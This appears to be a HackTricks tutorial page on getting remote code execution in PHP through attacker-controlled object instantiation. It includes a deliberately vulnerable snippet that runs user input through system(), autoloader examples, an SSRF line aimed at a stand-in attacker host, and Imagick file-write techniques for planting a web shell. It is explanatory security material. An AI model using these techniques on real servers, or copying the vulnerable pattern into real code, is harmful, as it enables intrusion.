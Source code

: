 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

The creation of new arbitrary objects, such as `new $_GET["a"]($_GET["a"])`, can lead to Remote Code Execution (RCE), as detailed in a [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). This document highlights various strategies for achieving RCE.

## RCE via Custom Classes or Autoloading

The syntax `new $a($b)` is used to instantiate an object where **`$a`** represents the class name and **`$b`** is the first argument passed to the constructor. These variables can be sourced from user inputs like GET/POST, where they may be strings or arrays, or from JSON, where they might present as other types.

Consider the code snippet below:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this instance, setting `$a` to `App` or `App2` and `$b` to a system command (e.g., `uname -a`) results in the execution of that command.

**Autoloading functions** can be exploited if no such classes are directly accessible. These functions automatically load classes from files when needed and are defined using `spl_autoload_register` or `__autoload`:

```php
spl_autoload_register(function ($class_name) {
    include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
    include $class_name . '.php';
};

spl_autoload_register();
```

The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## RCE via Built-In Classes

Lacking custom classes or autoloaders, **built-in PHP classes** may suffice for RCE. The number of these classes ranges between 100 to 200, based on PHP version and extensions. They can be listed using `get_declared_classes()`.

Constructors of interest can be identified through the reflection API, as shown in the following example and the link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via specific methods includes:**

### **SSRF + Phar Deserialization**

The `SplFileObject` class enables SSRF through its constructor, allowing connections to any URL:

```php
new SplFileObject('http://attacker.com/');
```

SSRF can lead to deserialization attacks in versions of PHP before 8.0 using the Phar protocol.

### **Exploiting PDOs**

The PDO class constructor allows connections to databases via DSN strings, potentially enabling file creation or other interactions:

```php
new PDO("sqlite:/tmp/test.txt")
```

### **SoapClient/SimpleXMLElement XXE**

Versions of PHP up to 5.3.22 and 5.4.12 were susceptible to XXE attacks through the `SoapClient` and `SimpleXMLElement` constructors, contingent on the version of libxml2.

## RCE via Imagick Extension

In the analysis of a **project's dependencies**, it was discovered that **Imagick** could be leveraged for **command execution** by instantiating new objects. This presents an opportunity for exploiting vulnerabilities.

### VID parser

The VID parser capability of writing content to any specified path in the filesystem was identified. This could lead to the placement of a PHP shell in a web-accessible directory, achieving Remote Code Execution (RCE).

#### VID Parser + File Upload

It's noted that PHP temporarily stores uploaded files in `/tmp/phpXXXXXX`. The VID parser in Imagick, utilizing the **msl** protocol, can handle wildcards in file paths, facilitating the transfer of the temporary file to a chosen location. This method offers an additional approach to achieve arbitrary file writing within the filesystem.

### PHP Crash + Brute Force

A method described in the [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) involves uploading files that trigger a server crash before deletion. By brute-forcing the name of the temporary file, it becomes possible for Imagick to execute arbitrary PHP code. However, this technique was found to be effective only in an outdated version of ImageMagick.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

